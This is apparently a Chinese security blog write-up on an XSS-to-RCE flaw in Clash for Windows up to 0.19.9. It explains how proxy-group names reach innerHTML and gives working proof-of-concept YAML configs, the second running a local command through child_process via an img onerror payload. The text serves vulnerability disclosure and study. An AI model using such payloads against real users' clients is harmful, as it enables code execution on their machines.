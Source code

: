 ### 前言

Clash for Windows(以下简称CFW)是一款基于go语言开发的代理客户端，2月23日poc在github上公开，2月25日作者发布了修复版本。

### 漏洞影响版本

<= 0.19.9

### 一些思考

​	为什么说是从 xss 到 RCE ？在常规的漏洞挖掘中，利用较多的就是存储型xss，攻击者可以盗取一些信息比如网站拥有者的cookie，并进一步结合其他信息扩大攻击成果，仿佛很少能直接做到RCE，但是CFW为什么会被R呢？

​	反观CFW的设计模式，它是基于 Electron 框架开发而来的，而 Electron 是一个用 HTML、CSS 和 js 来构建跨平台桌面应用程序的一个开源库，这一点上和浏览器上的网页模式相同，在防护不到位的情况下就存在 XSS 漏洞的风险，从而执行任意js代码。CFW又与浏览器不同的是，CFW可以对主机本地文件进行读写操作，也可以调用一些系统函数，导致漏洞的危害性进一步扩大。

​	那CFW是如何产生 xss 的呢？在配置项中，可以看到存在一些yml文件，这些文件一定是经过了某种规则的渲染进而呈现在这个页面上，这里不妨看一下文件结构

![image-20220307150335494](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/%E6%8A%80%E6%9C%AF/image/Clash.for.Windows从XSS到RCE/image-20220307150335494.png)

```yaml
proxy-groups:
  - name: 🔰 节点选择
    type: select
    proxies:
      - ♻️ 自动选择
      - 🎯 全球直连
      - HK - 香港IEPL专线 - 01
```

![image-20220307151051115](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/%E6%8A%80%E6%9C%AF/image/Clash.for.Windows从XSS到RCE/image-20220307151051115.png)

可以看到这里的 name 和 proxies 属性都会在页面上进行渲染，不妨跟踪一下渲染规则

```js
e._l(e.conf["proxy-groups"], (function(t, n) {
	return i("div", {
		key: n,
		staticClass: "proxy-item left-item",
		on: {
			click: function(i) {
				return e.editGroup(t, n)
			}
		}
	},
	[i("div", {
		domProps: {
			innerHTML: e._s(e.$parseEmoji(t.name))
		}
	})
```

第13行 name 属性经过解析表情函数 parseEmoji 处理后，被直接插入到HTML中，从而造成了 XSS 漏洞

不妨验证一下，编写poc如下：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: xss-test
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: xss-test<img/src="1"/onerror=alert(1);>
    type: select
    proxies:
    - xss-test
```

![image-20220307152003821](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/%E6%8A%80%E6%9C%AF/image/Clash.for.Windows从XSS到RCE/image-20220307152003821.png)

成功弹窗

### 漏洞复现

环境：win11 CFW：v0.18.4

在上面 xss 的基础上调用系统命令即可

POC：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: xss-test
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: xss-test<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - xss-test
```

![image-20220307152455723](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/%E6%8A%80%E6%9C%AF/image/Clash.for.Windows从XSS到RCE/image-20220307152455723.png)

### 漏洞危害

​	这样一个漏洞想要触发，现在我觉得是有点困难的，因为配置文件需手动导入或修改，这个漏洞爆出来后懂的人看一下就会知道有没有漏洞存在了，但不排除之前的在野利用，毕竟影响版本太广了，在不知情的情况下被上线了也是有可能的hhh，目前作者已经更新至v0.19.11，在新版本中，不再采用 innerHTML 属性。

![image-20220307153845858](https://cdn.jsdelivr.net/gh/KonDream/ctfshow-wp/%E6%8A%80%E6%9C%AF/image/Clash.for.Windows从XSS到RCE/image-20220307153845858.png)
